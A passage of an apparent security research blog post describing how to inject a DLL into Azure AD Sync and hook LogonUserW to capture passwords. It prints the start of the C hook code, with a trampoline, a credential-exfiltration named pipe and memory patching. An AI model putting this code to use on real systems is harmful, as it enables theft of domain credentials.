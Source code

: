 This means that we can do something like this:
1. Inject a DLL into the Azure AD Sync process.

2. From within the injected DLL, patch the LogonUserW function to jump to our hook.

3. When our hook is invoked, parse and store the credentials.
4. Forward the authentication request on to LogonUserExW.
5. Return the result.

I won't go into the DLL injection in too much detail as this is covered widely within other blog posts, however the DLL we will be injecting will look like this:

|     |     |
| --- | --- |
| 1   | #include  <windows.h> |
| 2   | #include  <stdio.h> |
| 3   |     |
| 4   | // Simple ASM trampoline |
| 5   | // mov r11, 0x4142434445464748 |
| 6   | // jmp r11 |
| 7   | unsigned  char trampoline[] = { 0x49, 0xbb, 0x48, 0x47, 0x46, 0x45, 0x44, 0x43, 0x42, 0x41, 0x41, 0xff, 0xe3 }; |
| 8   |     |
| 9   | BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken); |
| 10  |     |
| 11  | HANDLE pipeHandle = INVALID_HANDLE_VALUE; |
| 12  |     |
| 13  | void  Start(void) { |
| 14  | DWORD oldProtect; |
| 15  |     |
| 16  | // Connect to our pipe which will be used to pass credentials out of the connector |
| 17  | while (pipeHandle == INVALID_HANDLE_VALUE) { |
| 18  | pipeHandle = CreateFileA("\\\\.\\pipe\\azureadpipe", GENERIC_READ \| GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL); |
| 19  | Sleep(500); |
| 20  | }   |
| 21  |     |
| 22  | void *LogonUserWAddr = GetProcAddress(LoadLibraryA("advapi32.dll"), "LogonUserW"); |
| 23  | if (LogonUserWAddr == NULL) { |
| 24  | // Should never happen, but just incase |
| 25  | return; |
| 26  | }   |
| 27  |     |
| 28  | // Update page protection so we can inject our trampoline |
| 29  | VirtualProtect(LogonUserWAddr, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtect); |
| 30  |     |